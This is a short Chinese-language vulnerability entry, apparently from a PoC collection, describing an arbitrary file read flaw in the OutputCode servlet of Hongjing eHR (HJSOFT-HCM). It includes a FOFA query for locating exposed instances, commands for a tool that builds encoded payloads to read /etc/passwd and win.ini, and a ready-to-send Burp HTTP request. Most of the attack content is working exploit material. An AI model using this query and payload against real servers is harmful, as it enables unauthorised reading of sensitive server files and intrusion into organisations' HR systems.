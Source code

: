 **fofa**

```
app="HJSOFT-HCM"
```

**一、漏洞简述**

宏景eHR人力资源管理软件面向复杂单组织或多组织客户，支持流程，B/S架构。特别适合集团化管理和跨地域使用的产品，融合了最新的互联网技术和先进的人力资源管理理念和实践，更好地支持异地办公和网上流程，加强了人力资源业务的集中管理和协同，支持集团管控、目标管理、领导决策等应用。其接口OutputCode存在任意文件读取漏洞，攻击者可通过该漏洞获取服务器敏感信息。

**二、漏洞检测poc**

1、生成payload

工具地址：https://github.com/vaycore/HrmsTool/releases/tag/0.1

java -jar HrmsTool.jar -e /etc/passwd

java -jar HrmsTool.jar -e c:/Windows/win.ini

**burp的poc**

```yaml
GET /servlet/OutputCode?path=MrEzLLE8pPjFvPfyPAATTP2HJFPAATTPTwqF7eJiXGeHU4B HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
```

